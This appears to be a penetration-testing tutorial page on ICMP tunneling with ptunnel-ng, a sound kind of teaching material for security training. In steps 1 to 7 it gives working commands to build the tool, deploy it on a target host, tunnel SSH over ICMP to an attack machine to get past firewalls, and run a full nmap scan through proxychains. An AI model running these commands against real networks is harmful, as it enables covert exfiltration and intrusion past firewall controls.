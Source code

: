 ```yaml
---
legal-banner: true
---
```


### **Introduction**

ICMP tunneling enables traffic to be encapsulated within ICMP echo requests and responses, allowing data to bypass firewalls that permit ping traffic. This technique is particularly effective for data exfiltration and establishing tunnels to external servers.

1.  If ptunnel-ng is not already installed, clone the repository to your attack host using the following command:  
    `git clone https://github.com/utoni/ptunnel-ng.git`  
    
    ![](../../../img/Linux-Environment/8.png)
    
2.  After cloning the ptunnel-ng repository, navigate to the directory and run the `autogen.sh` script. Install the necessary dependencies using:  
    `cd ptunnel-ng && sudo apt install build-essential autoconf automake && sudo ./autogen.sh`  
    
    ![](../../../img/Linux-Environment/9.png)
    
3.  Once ptunnel-ng is set up on the attacker machine, transfer the repository to the target host (Refer to the File Transfer section for more details).  
    
    ![](../../../img/Linux-Environment/10.png)
    
4.  On the target host, start the ptunnel-ng server with the following command:  
    `sudo ./ptunnel-ng -r10.10.15.130 -R22`  
    
    ![](../../../img/Linux-Environment/11.png)
    
5.  On the attack machine, connect to the ptunnel-ng server using:  
    `sudo ./ptunnel-ng -p10.10.15.130 -l2222 -r10.10.15.130 -R22`  
    
    ![](../../../img/Linux-Environment/12.png)
    
6.  Tunnel an SSH connection through the ICMP tunnel by running:  
    `ssh -p22 -lubuntu 127.0.0.1`
    
7.  To perform a full Nmap scan through the ICMP tunnel using ProxyChains.  
    `proxychains nmap -sV -sT 172.16.4.3 -p-`